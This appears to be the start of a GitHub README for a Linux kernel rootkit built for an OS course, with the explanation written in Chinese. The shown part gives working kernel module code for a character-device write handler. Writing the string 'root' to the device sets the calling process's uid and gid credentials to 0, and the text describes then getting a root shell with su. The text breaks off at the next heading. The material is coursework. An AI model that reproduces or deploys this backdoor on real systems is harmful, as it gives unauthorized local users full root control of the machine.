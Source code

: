 # pwh_rootkit
ROOTKIT PROGRAM FOR OS COURSE
# 0x00 Priviledge Escalaction Methods
## 1. Set ID
第一种比较简单的方法,我们可以直接在写操作当中,当我们写我们注册号的字符设备时,
我们可以适当修饰咱们当前进程的`struct cred`结构体😄

```c
static ssize_t pwh_rootkit_write(struct file *file, const char __user *buf, size_t count, loff_t *start){
    static char user_data[0x100];
    int size = count > 0x100 ? 0x100:count;
    int flag;
    flag = copy_from_user(user_data, buf, size);
    
    if(!strncmp(user_data, "root", 4)){
        printk(KERN_INFO "WRITING...");
        struct cred *cur_cred = (struct cred *)current->cred;
        cur_cred->uid = cur_cred->euid = cur_cred->suid = cur_cred->fsuid = KUIDT_INIT(0);
        cur_cred->gid = cur_cred->egid = cur_cred->sgid = cur_cred->fsgid = KGIDT_INIT(0);

    }
    return size;
}
```

![image-20240415143500186](./README/image-20240415143500186.png)

可以看到这里被我们成功修改成为了root权限,这里发现groups还没切换,所以使用su命令来启动一个默认的rootshell



## 2
